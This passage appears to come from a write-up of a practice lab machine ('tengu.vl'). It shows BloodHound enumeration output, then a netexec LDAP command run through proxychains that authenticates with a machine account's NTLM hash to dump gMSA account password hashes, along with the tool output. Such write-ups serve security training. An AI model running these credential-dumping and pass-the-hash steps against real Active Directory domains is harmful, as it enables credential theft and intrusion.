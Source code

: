```c
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: nodered
INFO: Querying computer: SQL.tengu.vl
INFO: Querying computer: DC.tengu.vl
WARNING: Could not resolve: nodered: All nameservers failed to answer the query nodered. IN A: Server Do53:10.10.186.229@53 answered SERVFAIL
INFO: Done in 00M 04S
INFO: Compressing output into 20240328153643_bloodhound.zip
```

## Dumping gMSA Passwords

Since `NODERED$` was part of the `LINUX_SERVERS@TENGU.VL` group, we checked the permissions of the group and found that they had the permission `ReadGMSAPassword` set.

![](images/2024-03-30_13-42_bloodhound_nodered_query.png)

We dumped the `NTLM` hash for `gMSA01$` from `dc.tengu.vl`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec ldap 'dc.tengu.vl' -u 'NODERED$' -H 'REDACTED' --gmsa
SMB         10.10.186.229   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.186.229   636    DC               [+] tengu.vl\NODERED$:REDACTED 
LDAP        10.10.186.229   636    DC               [*] Getting GMSA Passwords
LDAP        10.10.186.229   636    DC               Account: gMSA01$              NTLM: REDACTED
LDAP        10.10.186.229   636    DC               Account: gMSA02$              NTLM:
```
